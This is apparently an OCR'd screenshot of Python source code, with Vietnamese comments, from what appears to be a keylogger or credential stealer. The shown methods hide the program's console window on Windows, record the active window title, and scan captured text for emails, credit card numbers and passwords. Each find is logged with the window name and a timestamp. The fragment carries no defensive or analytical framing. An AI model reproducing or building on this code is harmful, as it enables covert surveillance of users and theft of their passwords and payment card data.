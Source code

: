     def hide_console(self):
        """Ẩn console window (Windows only)"""
        if HIDE_CONSOLE and os.name == 'nt':
            try:
                import ctypes
                ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0)
            except:
                pass
    
    def get_active_window(self):
        """Lấy tên window đang active (Windows only)"""
        try:
            if os.name == 'nt':
                import ctypes
                from ctypes import wintypes
                
                user32 = ctypes.windll.user32
                kernel32 = ctypes.windll.kernel32
                
                hwnd = user32.GetForegroundWindow()
                length = user32.GetWindowTextLengthW(hwnd)
                buff = ctypes.create_unicode_buffer(length + 1)
                user32.GetWindowTextW(hwnd, buff, length + 1)
                return buff.value
        except:
            pass
        return "Unknown Window"
    
    def analyze_text(self, text):
        """Phân tích text để tìm thông tin nhạy cảm"""
        # Tìm email
        emails = re.findall(EMAIL_PATTERN, text)
        for email in emails:
            self.log_credential("EMAIL", email)
        
        # Tìm credit card
        cards = re.findall(CREDIT_CARD_PATTERN, text)
        for card in cards:
            self.log_credential("CREDIT_CARD", card)
        
        # Tìm password patterns
        for pattern in PASSWORD_PATTERNS:
            matches = re.findall(pattern, text, re.IGNORECASE)
            for match in matches:
                self.log_credential("PASSWORD", match)
    
    def log_credential(self, cred_type, value):
        """Log credential tìm được"""
        credential = {
            "type": cred_type,
            "value": value,
            "window": self.current_window,
            "timestamp": datetime.now().isoformat()
        }
        self.credentials_found.append(credential)
        print(f"[CREDENTIAL FOUND] {cred_type}: {value[:10]}...")
    